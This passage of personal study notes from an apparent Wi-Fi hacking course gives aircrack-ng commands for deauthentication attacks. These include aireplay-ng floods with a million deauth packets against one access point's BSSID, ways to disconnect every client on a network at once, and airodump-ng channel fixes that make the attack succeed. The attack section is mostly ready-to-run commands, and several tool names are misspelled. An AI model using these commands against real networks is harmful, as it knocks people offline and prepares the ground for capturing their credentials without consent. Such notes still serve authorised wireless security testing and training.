 We can see the 2 process by typing jobs.


If we need to stop all the process, use:

	▶️> killall aireplay-ng
	
If we want to stop any one of them, use:

	▶️> kill %1  [1 is the id of that process that we can see by te jobs command]
	
	
By this we can target all devices in a network one by one.


[Using the &> method we can make any process in the background (eg: ping google.com &> /dev/null &)]


✅️Deauthenticating all devices from a network at once:

------------------------------------------------------

▶️>  aireply-ng --deauth 1000000 -a 08:00:27:c7:e1:36 mon0 [The only difference is we dont specify the -c target device here]

But while running this we may get an error like invalid bssid. [we may also get the error with the normal command too that we done before]

The actual problem is that with the channel, the error also show that it listen on a channel(assume it is 7), but our  network's channel may be different. 

To fix this issue run airodum-ng against that specific network:

▶️>  airodump-ng mon0 [this discover all networks around us, and select the network we want]

▶️>  airodump-ng --bssid 08:00:27:c7:e1:36 --channel 11 mon0 [this will target the specific device]


keep this command(2nd one) running in a terminal and start deauthentication in the same terminal by splitting it this will fix the issue, because we are now targeting the specific network

▶️>  aireply-ng --deauth 1000000 -a 08:00:27:c7:e1:36 mon0


Now our attack's effectiveness will be reduced, the more devices we target the less effective attack. For this particular example some device didn't disconnected for 15 seconds and after it disconnected.

The issue that we face where aireplay-ng cant find the bssid then, just run airodump-ng to that specific network with the --channel and --bssid arguments.


GAINING ACCESS
==============


✅️Discovering hidden networks:

------------------------------

(may seen as hidden network, it dosent have name)

So we need to determine the name of the hidden network.
